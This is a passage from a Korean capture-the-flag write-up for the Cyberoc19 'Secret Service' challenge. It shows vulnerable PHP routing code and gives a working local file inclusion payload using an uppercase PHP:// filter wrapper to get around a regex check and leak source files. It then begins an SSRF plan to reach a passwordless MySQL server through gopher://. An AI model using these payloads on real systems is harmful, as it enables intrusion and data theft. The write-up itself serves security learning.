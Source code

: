 ## Cyberoc19 - Secret Service (Hidden Service)

```
Uneducated people (Junior 1st)

Cyberoc19 (2019 Whitehat Contest) - Secret Service Write up
Written by munsiwoo (mun.xiwoo@gmail.com)
```



### Source leak (LFI + PHP Wrapper)

문제에서는 `index.php`의 소스 일부를 제공한다. 해당 소스를 보면 간단한 미티게이션을 우회하고 `LFI`가 가능하다. `LFI`를 `PHP Wrapper`와 연계해서 `index.php`, `config.php`, `helper.php`, `dbconn.php` 등 다양한 소스를 얻을 수 있었다. (미티게이션 우회는 정규식 필터링이 미흡하므로 `php://`에서 `php`대신 `PHP`를 사용하면 된다.)

```php
SimpleRouter::post("/intra/view", function() {
    $service = input("service", false, "post");
    if($service === false)
        return "No such service";

    chdir("intra");
    $service = str_replace("_", "/", $service);
    if(strpos($service, '/') === 0 || preg_match("/^.*(\\.\\.|php).*$/", $service))
        return "Don't cheat!";
    
    include $service.".php";
    chdir("..");
}); 
```

```
service=PHP://filter/convert.base64-encode/resource=index
```



### Attack scenario

1\. `dbconn.php`에는 MySQL 연결 정보가 담겨있는데, 패스워드 부분이 비어있는걸 볼 수 있다.
여기서 "`SSRF`를 통해 `gopher://`를 사용하면 직접 DB에 접근할 수 있겠다." 라고 생각했다.

2\. `config.php`을 보면 `ReportModule`, `LogModule` 이렇게 2개의 클래스가 정의되어 있다.
`ReportModule`의 `send_real` 메소드에서는 `SSRF`가 가능해보였다.

```php
# ReportModule Class
public function send_report() {
    return $this->send_real();
}
private function send_real() {
    $target_host = parse_url($this->target, PHP_URL_HOST);
    if($target_host !== "localhost")
        return "Report can only be sent to localhost";
    
    $curl= curl_init();
    curl_setopt($curl, CURLOPT_URL, $this->target);
    $res = curl_exec($curl);
    curl_close($curl);

    return $res;
}
```
